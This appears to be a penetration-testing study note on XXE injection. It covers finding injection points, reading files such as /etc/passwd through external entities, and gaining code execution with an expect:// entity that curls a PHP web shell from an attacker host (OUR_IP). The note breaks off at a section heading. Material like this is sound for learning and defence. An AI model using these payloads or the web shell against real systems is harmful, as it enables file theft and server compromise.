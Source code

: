 `XML External Entity (XXE) Injection` vulnerabilities occur when XML data is taken from a user-controlled input without properly sanitizing or safely parsing it, which may allow us to use XML features to perform malicious actions
## finding XXEs
1. backend takes xml data as input
2. we should `note which elements are being displayed, such that we now which elements to inject into`.
3. **Note:** Some web applications may default to a JSON format in HTTP request, but may still accept other formats, including XML. So, even if a web app sends requests in a JSON format, we can try changing the `Content-Type` header to `application/xml`, and then convert the JSON data to XML with an [online tool](https://www.convertjson.com/json-to-xml.htm). If the web application does accept the request with XML data, then we may also test it against XXE vulnerabilities, which may reveal an unanticipated XXE vulnerability.
---
# Abusing XXE 

## 1. local file read 
(allows us to look for files such as ssh keys, sourceCode, etc/passwd... etc)
###### example injection point : displaying an element such as email with your user email ![[Pasted image 20250813152239.png]] 
For now, we know that whatever value we place in the `<email></email>` element gets displayed in the HTTP response. So, let us try to define a new entity and then use it as a variable in the `email`
```xml
<!DOCTYPE email [
  <!ENTITY company "Inlane Freight">
]>
```

```xml
<!DOCTYPE email [
  <!ENTITY company SYSTEM "file:///etc/passwd">
]>
```
---
## 2.  Remote Code Execution with XXE
The most efficient method to turn XXE into RCE is by fetching a web shell from our server and writing it to the web app, and then we can interact with it to execute commands.
###### example RCE via XXE in php application
To do so, we can start by writing a basic PHP web shell and starting a python web server, as follows:
```shell-session
$ echo '<?php system($_REQUEST["cmd"]);?>' > shell.php
sudo python3 -m http.server 80
```
place the payload curl request with `$IFS`after curl, its  a shell variable for space (avoids breaking syntax with curl)
```xml
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "expect://curl$IFS-O$IFS'OUR_IP/shell.php'">
]>
<root>
<name></name>
<tel></tel>
<email>&company;</email>
```
---
#### passing xml interpreters issues:
